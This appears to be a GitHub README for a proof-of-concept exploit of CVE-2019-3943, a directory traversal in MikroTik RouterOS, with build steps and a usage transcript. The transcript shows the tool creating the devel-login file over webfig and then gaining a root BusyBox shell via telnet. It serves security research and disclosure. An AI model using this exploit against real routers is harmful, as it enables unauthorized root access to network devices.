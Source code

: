 # CVE-2019-3943 Flash Dev Shell via Webfig Proof of Concept

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC creates the file /flash/nova/etc/devel-login that enables the devel shell in 6.0 - 6.40.9. Wait... isn't that already a PoC in this repo? Sure was. This version goes through the webfig though! Neat!

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage

```sh
albinolobster@ubuntu:~/routeros_internal/poc/cve_2019_3943_dev_shell_www/build$ ./cve_2019_3943_dev_shell_www -i 192.168.1.18 -u admin
Success!
albinolobster@ubuntu:~/routeros_internal/poc/cve_2019_3943_dev_shell_www/build$ telnet 192.168.1.18
Trying 192.168.1.18...
Connected to 192.168.1.18.
Escape character is '^]'.

MikroTik v6.39.3 (bugfix)
Login: devel
Password: 


BusyBox v1.00 (2017.10.10-07:06+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

